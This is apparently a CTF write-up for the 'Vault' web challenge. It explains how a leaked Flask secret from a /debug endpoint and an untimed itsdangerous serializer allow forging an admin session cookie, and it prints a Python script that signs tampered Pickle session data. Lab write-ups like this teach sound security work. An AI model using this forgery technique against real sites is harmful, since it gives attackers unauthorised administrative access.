










# [Web] Vault - 300

We are given with the link to to https://vault.project-ag.org



We're presented with "Access Vault" and "Documentation". Clicking the "Access Vault" leads us to the page below.



As can be seen also from the above screenshot, it also presents the current session we have as the user. Clicking on the "Admin Panel", gives us the Access Denied error message below.



We tampered around the website and my teammate [ruur](https://ruur.gitbook.io/ctf-writeups) pointed out there was a `/debug` endpoint. Turns out, it has the key for signing keys within Flask.



Now that we have a signing key, we just need to figure out what data we need to sign. Turns out that the data part of the session string is a Pickle encoded base64 string.





As can be seen above, we're only guest and have a guest@vault.com email. We can quickly change it to "admin"



Turn it into base64 and sign it. However, if you're going to look at the session string, there's no timestamp. Below output from `flask-unsign` has a timestamp. 



Compared to...


You quickly count the "."s and you would see that there's 2 in the first one and only 1 in the website. This means there's a different signing method used for this.

Turns out, we can use the `URLSafeSerializer` from `itsdangerous`. The ones commonly used now are timed and thus timestamp is always included but the older function is doesn't have timestamp included when signing and printing sessions.

```python3
from itsdangerous import URLSafeSerializer

# Initialize the URL-safe serializer with a secret key
s = URLSafeSerializer('super_secret_key_for_vault_application_2024')
...
```

So we have the full signing code below:

```python
from itsdangerous import URLSafeSerializer

# Initialize the URL-safe serializer with a secret key
s = URLSafeSerializer('super_secret_key_for_vault_application_2024')

# Data to serialize
# This is admin session tampered from original
data = "gASVWAAAAAAAAACMCF9fbWFpbl9flIwEVXNlcpSTlCmBlH2UKIwIdXNlcm5hbWWUjAVhZG1pbpSMB2JhbGFuY2WUS2SMB2FjY291bnSUjA9hZG1pbkB2YXVsdC5jb22UdWIu"

# This is original guest session
#data = "gASVWAAAAAAAAACMCF9fbWFpbl9flIwEVXNlcpSTlCmBlH2UKIwIdXNlcm5hbWWUjAVndWVzdJSMB2JhbGFuY2WUS2SMB2FjY291bnSUjA9ndWVzdEB2YXVsdC5jb22UdWIu"

# Serialize and sign the data into a URL-safe string
token = s.dumps(data)
print(f"Generated URL-safe token: {token}")

# Load and verify the data (no time check)
try:
    loaded_data = s.loads(token)
    print(f"Loaded data: {loaded_data}")
except Exception as e:
    # Handles BadSignature, etc.
    print(f"Error loading token: {e}")

```

We generated our guest session and set to Cookie `vault_session` to confirm if we have the same session string from the web.



And we did! So we tried to sign the tampered Pickle data with admin username and signed it



We sent it to `/admin` endpoint through Cookie `vault_session` and we managed get access and got the flag.


